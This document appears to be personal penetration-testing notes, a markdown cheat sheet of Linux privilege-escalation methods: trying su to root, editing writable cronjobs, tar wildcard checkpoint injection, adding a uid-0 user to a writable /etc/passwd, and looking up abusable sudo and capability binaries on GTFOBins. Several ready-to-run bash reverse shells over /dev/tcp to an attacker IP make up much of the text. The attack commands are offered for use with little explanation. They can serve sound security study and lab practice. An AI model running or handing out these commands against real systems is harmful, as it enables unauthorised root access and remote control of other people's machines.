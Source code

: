 ## Linux PrivEsc

If we reckon we have a privileged users password, remember to try this even if login via SSH has failed, it may just be that the privileged user we have owned doesn't have SSH, but they can still authenticate locally:
```bash
su - root
```
### Abusing cronjobs
Search for cronjobs running as privileged users and see if we can't edit the file it runs:
```bash
grep "CRON" /var/log/syslog
```
If this comes up empty don't forget to check other cronjob enumeration commands as listed in `enumeration/linux.md#cronjobs`.

If we can edit then go ahead and pop a reverse shell in there:
```bash
echo "bash -c 'bash -i >& /dev/tcp/<OurIP>/4444 0>&1'" >> cronjobbin_all_day_long.sh
```
If we happen to clock a cronjob running something with a wildcard then remember to consider the possibility of some parameter injection. If the command happens to be `tar` then its super easy, one from the labs:
```bash
cd /dir/being/targeted/by/wildcardin/tar/cronjob
echo 'bash -c "bash -i >& /dev/tcp/192.168.45.xx/4448 0>&1"' > shell.sh
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh shell.sh'
```

### /etc/passwd
If for some ridiculous reason `/etc/passwd` is writable by a user we can execute commands as, we have an easy path to privesc by inserting a new root user in there:
```bash
openssl passwd lolzage
```
```bash
echo "gigachad:<our hashed password>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
```bash
su gigachad
```

### GTFOBins
If a binary has been delegated additional capabilities (particularly keeping an eye out for the `cap_setuid+ep` setting) we can find out via:
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
Equally if our current user can run an application as `root` we can discover them via:
```bash
sudo -l
```
In both cases we can search for how we might go about abusing the relevant binary on https://gtfobins.github.io/. Nb. it is possible that `AppArmor` may cuck us for a privesc path we try. Do not be disheartened! `AppArmor` works via a series of profiles, just because one is present for one application, does not mean there is one present for all of them. Abuse every binary!
